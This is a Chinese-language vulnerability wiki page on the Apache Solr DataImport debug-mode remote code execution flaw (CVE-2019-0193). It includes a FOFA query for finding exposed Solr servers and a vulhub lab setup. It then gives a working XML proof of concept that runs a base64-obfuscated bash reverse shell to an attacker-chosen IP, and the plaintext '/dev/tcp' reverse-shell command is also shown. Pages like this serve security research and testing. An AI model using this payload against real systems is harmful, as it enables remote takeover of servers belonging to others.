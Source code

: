```yaml
---
title: Apache Solr Debug-Mode 远程执行漏洞 CVE-2019-0193
---
```


# Apache Solr Debug-Mode 远程执行漏洞 CVE-2019-0193

## 漏洞描述
2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与data-config.xml 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 dataConfig 参数中可以包含 script 恶意脚本导致远程代码执行。

## 漏洞影响

<a-checkbox checked>Apache Solr</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUtU29sciI%3D">FOFA: app="APACHE-Solr"</a-button>
</a-checkbox>

## 环境搭建
```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![6b8ee428-c68d-4517-8206-fb6eda9d4e5b](/assets/PeiQi-Wiki/img/6b8ee428-c68d-4517-8206-fb6eda9d4e5b.png)

## 登录页面

点击刚刚创建的test进入调试

![9e50ce8c-94b7-461c-95e9-17030e72623f](/assets/PeiQi-Wiki/img/9e50ce8c-94b7-461c-95e9-17030e72623f.png)

将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

点击EXecute执行代码

![7217d375-48e1-460e-bb1e-c1db123daff1](/assets/PeiQi-Wiki/img/7217d375-48e1-460e-bb1e-c1db123daff1.png)

![999fb5d8-a762-4957-a9b7-a6e66df216dd](/assets/PeiQi-Wiki/img/999fb5d8-a762-4957-a9b7-a6e66df216dd.png)
